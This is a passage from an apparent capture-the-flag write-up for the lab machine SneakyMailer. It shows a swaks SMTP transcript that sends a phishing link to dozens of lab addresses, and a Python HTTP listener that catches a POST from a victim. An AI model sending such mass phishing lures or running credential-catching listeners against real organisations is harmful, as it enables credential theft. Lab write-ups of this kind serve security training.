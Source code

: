```
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Sun, 12 Jul 2020 10:55:55 -0400
 -> To: tigernixon@sneakymailer.htb,garrettwinters@sneakymailer.htb,ashtoncox@sneakymailer.htb,cedrickelly@sneakymailer.htb,airisatou@sneakymailer.htb,briellewilliamson@sneakymailer.htb,herrodchandler@sneakymailer.htb,rhonadavidson@sne
akymailer.htb,colleenhurst@sneakymailer.htb,sonyafrost@sneakymailer.htb,jenagaines@sneakymailer.htb,quinnflynn@sneakymailer.htb,chardemarshall@sneakymailer.htb,haleykennedy@sneakymailer.htb,tatyanafitzpatrick@sneakymailer.htb,michaelsi
lva@sneakymailer.htb,paulbyrd@sneakymailer.htb,glorialittle@sneakymailer.htb,bradleygreer@sneakymailer.htb,dairios@sneakymailer.htb,jenettecaldwell@sneakymailer.htb,yuriberry@sneakymailer.htb,caesarvance@sneakymailer.htb,doriswilder@sn
eakymailer.htb,angelicaramos@sneakymailer.htb,gavinjoyce@sneakymailer.htb,jenniferchang@sneakymailer.htb,brendenwagner@sneakymailer.htb,fionagreen@sneakymailer.htb,shouitou@sneakymailer.htb,michellehouse@sneakymailer.htb,sukiburks@snea
kymailer.htb,prescottbartlett@sneakymailer.htb,gavincortez@sneakymailer.htb,martenamccray@sneakymailer.htb,unitybutler@sneakymailer.htb,howardhatfield@sneakymailer.htb,hopefuentes@sneakymailer.htb,vivianharrell@sneakymailer.htb,timothy
mooney@sneakymailer.htb,jacksonbradshaw@sneakymailer.htb,olivialiang@sneakymailer.htb,brunonash@sneakymailer.htb,sakurayamamoto@sneakymailer.htb,thorwalton@sneakymailer.htb,finncamacho@sneakymailer.htb,sergebaldwin@sneakymailer.htb,zen
aidafrank@sneakymailer.htb,zoritaserrano@sneakymailer.htb,jenniferacosta@sneakymailer.htb,carastevens@sneakymailer.htb,hermionebutler@sneakymailer.htb,laelgreer@sneakymailer.htb,jonasalexander@sneakymailer.htb,shaddecker@sneakymailer.h
tb,sulcud@sneakymailer.htb,donnasnider@sneakymailer.htb,
 -> From: test@sneakymailer.htb
 -> Subject: test
 -> Message-Id: <20200712105555.099308@kali>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> please click here http://10.10.14.42/
 -> 
 -> 
 -> .
<-  250 2.0.0 Ok: queued as 5143C24808
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.

```

The body of my email is a link to myself. I’ll have Python’s `http.server` module listening. Strangely, a POST request comes back:

```

root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.197 - - [12/Jul/2020 10:51:01] code 501, message Unsupported method ('POST')
10.10.10.197 - - [12/Jul/2020 10:51:01] "POST / HTTP/1.1" 501 -

```
